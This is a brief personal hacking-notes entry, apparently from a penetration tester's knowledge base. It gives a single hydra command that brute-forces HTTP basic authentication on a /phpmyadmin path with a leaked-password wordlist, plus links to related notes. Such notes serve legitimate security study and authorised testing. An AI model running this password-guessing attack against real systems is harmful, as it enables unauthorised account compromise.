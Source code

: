 # hydra brute force HTTP basic authentication also works for NTLM
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```

# References
- [20221003150849](/zet/20221003150849/README.md) hydra brute force HTTP basic authentication
- ~/kb/hacking/commands/hydra-http-auth.md

Tags:
    #assorted #command #hacking #hydra
